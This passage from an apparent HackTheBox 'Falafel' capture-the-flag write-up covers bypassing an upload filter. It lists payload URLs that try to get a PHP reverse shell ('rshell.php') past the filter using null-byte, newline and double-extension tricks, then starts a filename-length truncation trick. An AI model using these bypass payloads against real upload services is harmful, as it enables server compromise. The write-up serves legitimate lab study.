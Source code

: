 
I spent quite a lot of time on this as well, here are some of the following techniques I tried:

```bash
http://10.10.14.52/rshell.php%20
http://10.10.14.52/rshell.php%0a
http://10.10.14.52/rshell.png.php
http://10.10.14.52/rshell.php%00.png
http://10.10.14.52/rshell.png.jpg.php
```

And many more, nothing worked. 


Then, I decided to try and break the OS filename limit, to cut off the final `.png` exntesion leaving the file ending with `.php`. 


First we need to understand what is the OS file size limits, I start with the maximum allowed limit which is 255 bytes. I rename my image as such:

```bash
mv empty.png `python -c "print('A' * 251)"`.png
```

![name-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Falafel/img/namp-18.png)


If we send the application to fetch this file we get the following:
